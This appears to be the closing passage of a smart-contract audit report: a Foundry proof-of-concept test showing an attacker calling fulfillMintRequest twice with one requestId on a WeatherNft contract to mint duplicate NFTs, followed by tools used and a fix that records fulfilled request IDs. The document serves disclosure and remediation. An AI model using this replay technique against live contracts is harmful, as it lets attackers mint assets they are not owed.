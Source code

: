 ```solidity
        bytes32 reqId;
        for (uint256 i; i < logs.length; i++) {
            if (logs[i].topics[0] == keccak256("WeatherNFTMintRequestSent(address,string,string,bytes32)")) {
                (,,, reqId) = abi.decode(logs[i].data, (address, string, string, bytes32));
                break;
            }
        }

        // Step 3: Simulate successful Chainlink oracle fulfillment
        vm.prank(functionsRouter);
        bytes memory weatherResponse = abi.encode(WeatherNftStore.Weather.RAINY);
        weatherNft.handleOracleFulfillment(reqId, weatherResponse, "");

        // Step 4: Attacker calls fulfillMintRequest multiple times with the same requestId
        // This should not be possible — however, the contract currently allows it.
        vm.startPrank(attacker);
        weatherNft.fulfillMintRequest(reqId); // First call, mints NFT
        weatherNft.fulfillMintRequest(reqId); // Second call, mints another NFT with the same requestId
        vm.stopPrank();

        // Step 5: Both NFTs are minted to the attacker, demonstrating the multi-mint vulnerability
        vm.assertEq(weatherNft.ownerOf(tokenId), attacker);
        vm.assertEq(weatherNft.ownerOf(tokenId + 1), attacker);
    }
}
```

***

## Tools Used

* Manual Review

* Foundry Unit Testing

***

## Recommendations

**Ensure One-Time Fulfillment**

Track fulfillment status for each `requestId` and prevent duplicate calls:

```diff
+   mapping(bytes32 => bool) public fulfilled;

 function fulfillMintRequest(bytes32 requestId) external {
+    require(!fulfilled[requestId], "Already fulfilled");
+    fulfilled[requestId] = true;
     // ... existing logic ...
 }
```
